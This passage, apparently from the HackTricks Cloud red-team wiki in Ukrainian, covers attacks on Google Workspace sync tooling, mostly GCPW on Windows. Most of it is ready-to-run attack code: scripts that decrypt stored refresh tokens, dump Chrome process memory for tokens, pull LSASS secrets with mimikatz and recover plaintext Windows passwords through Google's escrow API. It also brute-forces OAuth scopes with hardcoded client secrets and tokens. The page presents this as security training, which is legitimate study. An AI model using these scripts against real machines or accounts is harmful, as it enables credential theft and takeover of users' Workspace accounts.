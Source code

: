 # GWS - Атаки синхронізації Workspace (GCPW, GCDS, Синхронізація каталогу з AD та EntraID)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## GCPW - Google Credential Provider для Windows

Це єдиний вхід, який надає Google Workspaces, щоб користувачі могли входити в свої ПК з Windows, використовуючи **свої облікові дані Workspace**. Більше того, це зберігатиме токени для доступу до Google Workspace у деяких місцях на ПК.

{% hint style="success" %}
Зверніть увагу, що [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) здатний виявляти **GCPW**, отримувати інформацію про конфігурацію та **навіть токени**.
{% endhint %}

### GCPW - MitM

Коли користувач отримує доступ до ПК з Windows, синхронізованого з Google Workspace через GCPW, йому потрібно буде заповнити звичайну форму входу. Ця форма входу поверне код OAuth, який ПК обміняє на токен оновлення в запиті, подібному до: 

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

Нові рядки були додані для покращення читабельності.

{% hint style="info" %}
Було можливим виконати MitM, встановивши `Proxifier` на ПК, перезаписавши бінарний файл `utilman.exe` на `cmd.exe` і запустивши **функції доступності** на сторінці входу в Windows, що виконає **CMD**, з якого ви можете **запустити та налаштувати Proxifier**.\
Не забудьте **блокувати QUICK UDP** трафік у `Proxifier`, щоб він знизився до TCP зв'язку, і ви могли його бачити.

Також налаштуйте в "Службах та інших користувачах" обидві опції та встановіть сертифікат Burp CA в Windows.
{% endhint %}

Крім того, додавши ключі `enable_verbose_logging = 1` та `log_file_path = C:\Public\gcpw.log` в **`HKLM:\SOFTWARE\Google\GCPW`**, можна зберігати деякі журнали.

### GCPW - Відбиток

Можна перевірити, чи встановлено GCPW на пристрої, перевіривши, чи існує наступний процес або чи існують наступні ключі реєстру:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
В **`HKCU:\SOFTWARE\Google\Accounts`** можливо отримати доступ до електронної пошти користувача та зашифрованого **refresh token**, якщо користувач нещодавно увійшов в систему.

В **`HKLM:\SOFTWARE\Google\GCPW\Users`** можливо знайти **домен** , які дозволені для входу в ключі `domains_allowed`, а в підключах можливо знайти інформацію про користувача, таку як електронна пошта, зображення, ім'я користувача, терміни дії токенів, обробник токенів...

{% hint style="info" %}
Обробник токенів - це токен, який починається з `eth.` і з якого можна витягти деяку інформацію за допомогою запиту, наприклад:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Також можливо знайти дескриптор токена доступу за допомогою запиту, як-от:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Наскільки мені відомо, неможливо отримати refresh token або access token з token handle.
{% endhint %}

Крім того, файл **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** є json, що містить інформацію про різні **налаштування**, такі як `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (якщо кілька користувачів з Workspace можуть увійти на комп'ютер) та `validityPeriodDays` (кількість днів, протягом яких користувачеві не потрібно повторно автентифікуватися безпосередньо з Google).

### GCPW - Токени оновлення реєстру

У реєстрі **`HKCU:\SOFTWARE\Google\Accounts`** може бути можливість знайти деякі облікові записи з **`refresh_token`**, зашифрованим всередині. Метод **`ProtectedData.Unprotect`** може легко його розшифрувати.

<details>

<summary>Отримати <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> дані та розшифрувати refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Приклад виходу:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Як пояснено в [**цьому відео**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), якщо ви не знайдете токен у реєстрі, можливо, ви зможете змінити значення (або видалити) з **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** і наступного разу, коли користувач отримує доступ до комп'ютера, йому потрібно буде знову увійти, а **токен буде збережено в попередньому реєстрі**.

### GCPW - Токени оновлення диска

Файл **`%LocalAppData%\Google\Chrome\User Data\Local State`** зберігає ключ для розшифровки **`refresh_tokens`**, розташованих всередині **профілів Google Chrome** користувача, таких як:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Можна знайти деякий **C# код**, що отримує доступ до цих токенів у розшифрованому вигляді в [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Більше того, шифрування можна знайти в цьому коді: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Можна спостерігати, що використовується AESGCM, зашифрований токен починається з **версії** (**`v10`** на даний момент), потім [**має 12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), а потім має **шифротекст** з фінальним **mac 16B**.

### GCPW - Витяг токенів з пам'яті процесів

Наступний скрипт можна використовувати для **витягування** кожного **процесу Chrome**, використовуючи `procdump`, витягти **рядки** і потім **шукати** рядки, пов'язані з **токенами доступу та оновлення**. Якщо Chrome підключений до якогось сайту Google, деякі **процеси зберігатимуть токени оновлення та/або доступу в пам'яті!**

<details>

<summary>Витягти процеси Chrome та шукати токени</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

Я спробував те ж саме з `gcpw_extension.exe`, але він не знайшов жодного токена.

З якоїсь причини, **деякі витягнуті токени доступу не будуть дійсними (хоча деякі будуть)**. Я спробував наступний скрипт, щоб видаляти символи по одному, щоб спробувати отримати дійсний токен з дампу. Це ніколи не допомагало мені знайти дійсний, але, можливо, це може:

<details>

<summary>Перевірте токен доступу, видаляючи символи по одному</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Відновлення пароля у відкритому вигляді

Щоб зловживати GCPW для відновлення пароля у відкритому вигляді, можна вивантажити зашифрований пароль з **LSASS** за допомогою **mimikatz**:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Потім шукайте секрет, як `Chrome-GCPW-<sid>`, як на зображенні:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Потім, з **токеном доступу** зі сферою `https://www.google.com/accounts/OAuthLogin`, можна запитати приватний ключ для розшифровки пароля:

<details>

<summary>Скрипт для отримання пароля у відкритому тексті, given токен доступу, зашифрований пароль та ідентифікатор ресурсу</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Можливо знайти ключові компоненти цього в вихідному коді Chromium:

* API домен: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API кінцева точка: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Генерація токенів доступу з токенів оновлення

Використовуючи токен оновлення, можливо згенерувати токени доступу, використовуючи його та ідентифікатор клієнта і секрет клієнта, зазначені в наступній команді:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
Зверніть увагу, що навіть маючи refresh token, неможливо запитати жоден scope для access token, оскільки ви можете запитувати лише **scopes, підтримувані додатком, в якому ви генеруєте access token**.

Також refresh token не є дійсним в кожному додатку.
{% endhint %}

За замовчуванням GCPW не матиме доступу як користувач до кожного можливого OAuth scope, тому, використовуючи наступний скрипт, ми можемо знайти scopes, які можна використовувати з `refresh_token` для генерації `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

І ось вихід, який я отримав на момент написання:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
Крім того, перевіряючи вихідний код Chromium, можна [**знайти цей файл**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), який містить **інші області** , які можна вважати такими, що **не з'являються в раніше зламаному списку**. Отже, ці додаткові області можна вважати:

<details>

<summary>Додаткові області</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Зверніть увагу, що найцікавішим, можливо, є:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Однак я намагався використати цей обсяг для доступу до gmail або для переліку груп, і це не спрацювало, тому я не знаю, наскільки це все ще корисно.

**Отримати токен доступу з усіма цими обсягами**:

<details>

<summary>Bash-скрипт для генерації токена доступу з refresh_token з усіма обсягами</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
